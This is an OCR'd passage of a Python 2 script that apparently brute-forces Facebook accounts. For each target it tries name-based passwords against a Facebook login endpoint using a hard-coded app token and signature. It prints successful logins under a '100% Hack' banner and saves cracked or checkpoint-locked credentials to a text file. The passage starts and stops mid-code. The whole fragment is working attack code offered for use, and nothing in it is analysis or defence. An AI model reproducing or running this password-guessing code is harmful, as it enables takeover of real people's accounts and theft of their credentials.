 								else:
									pass4 = b['last_name'] + '123'
									data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
									q = json.load(data)
									if 'access_token' in q:
										print '\x1b[1;91m100% Hack💉\x1b[1;97m-\x1b[1;94m✙\x1b[1;96m-' + user + '-\x1b[1;93m✙\x1b[1;91m-' + pass4
										oks.append(user+pass4)
									else:
										if 'www.facebook.com' in q["error_msg"]:
											print '\x1b[1;93mAfter7Days🗝\x1b[1;97m-\x1b[1;93m✙\x1b[1;96m-' + user + '-\x1b[1;93m✙\x1b[1;93m-' + pass4
											cek = open("out/checkpoint.txt", "a")
											cek.write(user+"|"+pass4+"\n")
											cek.close()
											cekpoint.append(user+pass4)
										else:
											pass5 = b['last_name'] + b['last_name']
											data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
											q = json.load(data)
											if 'access_token' in q:
												print '\x1b[1;91m100% Hack💉\x1b[1;97m-\x1b[1;93m✙\x1b[1;96m-' + user + '-\x1b[1;93m✙\x1b[1;91m-' + pass5
												oks.append(user+pass5)
											else:
												if 'www.facebook.com' in q["error_msg"]:
													print '\x1b[1;93mAfter7Days🗝\x1b[1;97m-\x1b[1;93m✙\x1b[1;96m-' + user + '-\x1b[1;93m✙\x1b[1;93m-' + pass5
													cek = open("out/checkpoint.txt", "a")
													cek.write(user+"|"+pass5+"\n")
													cek.close()
													cekpoint.append(user+pass5)
												else:
													pass6 = b['last_name'] + b['last_name'] + '123'
													data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
													q = json.load(data)
													if 'access_token' in q:
														print '\x1b[1;91m100% Hack💉\x1b[1;97m-\x1b[1;93m✙\x1b[1;96m-' + user + '-\x1b[1;93m✙\x1b[1;91m-' + pass6
														oks.append(user+pass6)
													else:
														if 'www.facebook.com' in q["error_msg"]:
															print '\x1b[1;93mAfter7Days🗝\x1b[1;97m-\x1b[1;93m✙\x1b[1;96m-' + user + '-\x1b[1;93m✙\x1b[1;93m-' + pass6
															cek = open("out/checkpoint.txt", "a")
															cek.write(user+"|"+pass6+"\n")
															cek.close()
															cekpoint.append(user+pass6)
														else:
															a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
															b = json.loads(a.text)
															pass7 = b['first_name'] + '12'
															data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
															q = json.load(data)
															if 'access_token' in q: